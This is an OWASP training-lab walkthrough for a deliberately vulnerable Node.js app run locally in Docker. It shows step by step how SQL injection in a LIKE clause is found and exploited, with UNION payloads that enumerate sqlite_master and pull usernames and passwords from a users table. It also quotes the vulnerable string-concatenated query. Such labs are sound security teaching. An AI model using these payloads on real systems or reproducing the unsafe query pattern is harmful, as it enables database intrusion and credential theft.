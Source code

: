 # SQLI \(Like\)

## Running the app on Docker

```
$ sudo docker pull blabla1337/owasp-skf-lab:js-sqli-like
```

```
$ sudo docker run -ti -p 127.0.0.1:5000:5000 blabla1337/owasp-skf-lab:js-sqli-like
```

{% hint style="success" %}
Now that the app is running let's go hacking!
{% endhint %}

## Reconnaissance

### Step1

The first step is to identify parameters which could be potentially used in an SQL query to communicate with the underlying database. In this example we find that the "/home" method grabs data by page name and displays the content.

![](../../.gitbook/assets/nodejs/SQLI-Like/1.png)

```text
http://localhost:5000/home/Admin
```

### Step2

Now let's see if we can create an error by injecting a single quote

![](../../.gitbook/assets/nodejs/SQLI-Like/2.png)

```text
http://localhost:5000/home/Admin'
```

By doing so the SQL query syntax is now faulty. This is due to the fact that the user supplied input is being directly concatenated into the SQL query.

```javascript
db.get( "SELECT UserName, email FROM users WHERE UserName LIKE '%" + username + "%' ORDER BY UserId"
```

### Step3

Now we need to inject characters to make the SQL query syntactically correct.

![](../../.gitbook/assets/nodejs/SQLI-Like/3.png)

```text
http://localhost:5000/home/Admin%25'--
```

After that we inject a logical operator which is true \(and 1=1\). This should result in the application run as intended without errors.

![](../../.gitbook/assets/nodejs/SQLI-Like/4.png)

```text
http://localhost:5000/home/Admin%25'AND 1=1--
```

## Exploitation

Now that we know that the application is vulnerable for SQL injections we are going to use this vulnerability to read sensitive information from the database. This process could be automated with tools such as SQLMAP. However, for this example let's try to exploit the SQL injection manually.

### Step1

The UNION operator is used in SQL injections to join a query, purposely forged to the original query. This allows to obtain the values of columns of other tables. First we need to determine the number of columns used by the original query. We can do this by trial and error.

![](../../.gitbook/assets/nodejs/SQLI-Like/5.png)

```text
http://localhost:5000/home/Admin%25'union select 1--
```

This query results in an error, this is due to the fact that the original query started with 2 columns namely  
\* UserName \* email

![](../../.gitbook/assets/nodejs/SQLI-Like/6.png)

```text
http://localhost:5000/home/Admin%25'union select 1,2--
```

Notice how "UserName" and "email" became placeholders for data we want to retrieve from the database

### Step 2

Now that we determined the number of columns we need to take, the next step is querying system tables to check which tables are stored in the Database. From the error message in the first picture, we can determine a SQLite DB is being used. As the application didn't return an error, our guess is correct.

![](../../.gitbook/assets/nodejs/SQLI-Like/7.png)

```text
http://localhost:5000/home/Admin%25'UNION SELECT 1,2 from sqlite_master--
```

#### Step 3

Now we need to discover the table and columns name of the table we want to extract. As the application only displays the first result, we need to play with SQL Limit.

![](../../.gitbook/assets/nodejs/SQLI-Like/8.png)

```text
http://localhost:5000/home/Admin%25'union select tbl_name,sql from sqlite_master limit 1,1--
```

#### Step 4

Now we have all the information required to extract data from _users_ table. Play with SQL Limit to get credentials from more users.

![](../../.gitbook/assets/nodejs/SQLI-Like/9.png)

```text
http://localhost:5000/home/Admin%25'union select UserName,Password from users limit 0,1--
```

## Additional sources

Please refer to the OWASP testing guide for a full complete description about SQL injection with all the edge cases over different platforms!

{% embed url="https://owasp.org/www-community/attacks/SQL_Injection" %}

SQLite Reference

{% embed url="https://www.sqlitetutorial.net/sqlite-nodejs/query/" %}
